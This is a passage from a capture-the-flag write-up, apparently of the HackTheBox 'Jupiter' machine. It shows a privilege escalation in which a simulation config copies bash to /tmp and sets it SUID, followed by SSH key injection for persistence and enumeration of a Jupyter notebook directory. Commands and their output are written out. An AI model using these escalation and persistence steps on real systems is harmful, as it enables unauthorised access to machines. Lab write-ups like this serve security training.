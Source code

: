 ```yml
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    processes:
    - path: /usr/bin/chmod
      args: a+s /tmp/bash
      start_time: 5s
```

This will allowed me to execute `/tmp/bash` privileged mode with elevated privileges as `juno`.

```bash
(remote) postgres@jupiter:/dev/shm$ ls -l /tmp/bash
-rwsr-sr-x 1 juno juno 1396520 Jun 22 18:06 /tmp/bash
(remote) postgres@jupiter:/dev/shm$ /tmp/bash -p
(remote) juno@jupiter:/dev/shm$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)
```


---
## Shell as Jovian
----

To establish a stable and persistent session via SSH, I injected my SSH key into `juno`'s SSH directory. This enables me to maintain secure and continuous access to the system as `juno`.

```bash
(remote) juno@jupiter:/home/juno$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

### Command execution via jupyter notebook

Discovering that `juno` belongs to the `science` group is intriguing. While searching for files and directories linked to this group, I uncovered some interesting items, including a _flares.ipynb_ notebook and a couple Jupyter logs.

```bash
(remote) juno@jupiter:/home/juno$ find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
```